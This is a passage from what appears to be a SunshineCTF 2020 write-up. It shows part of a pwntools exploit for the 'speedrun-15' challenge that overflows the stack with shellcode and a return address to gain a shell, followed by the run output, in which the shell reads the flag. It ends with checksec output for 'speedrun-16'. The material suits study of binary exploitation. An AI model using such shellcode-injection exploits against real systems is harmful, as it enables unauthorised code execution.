 ```python  
payload += p32(0xfacade)  
payload += (0x10 - (stack + len(payload)) & 0xf) * b'B'

stack += len(payload)  
log.info('stack: ' + hex(stack))

payload += shellcode  
payload += (0x4e - len(payload) - 0xc) * b'C'  
payload += p32(0xfacade)  
payload += (0x4e - len(payload)) * b'D'  
payload += p64(stack)

p.sendline(payload)  
p.interactive()  
```

Output:

```bash  
# ./exploit_15.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-15/chall_15'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      PIE enabled  
   RWX:      Has RWX segments  
[+] Opening connection to chal.2020.sunshinectf.org on port 30015: Done  
[*] stack: 0x7ffd4e7d875a  
[*] stack: 0x7ffd4e7d8770  
[*] Switching to interactive mode  
$ id  
uid=1000(chall_15) gid=1000(chall_15) groups=1000(chall_15)  
$ ls -l  
total 16  
-rwxr-xr-x 1 root root     8464 Nov  7 07:49 chall_15  
-rw-r----- 1 root chall_15   34 Nov  7 08:52 flag.txt  
$ cat flag.txt  
sun{bat-country-53036e8a423559df}  
```

## speedrun-16

### Checksec  
```  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
```
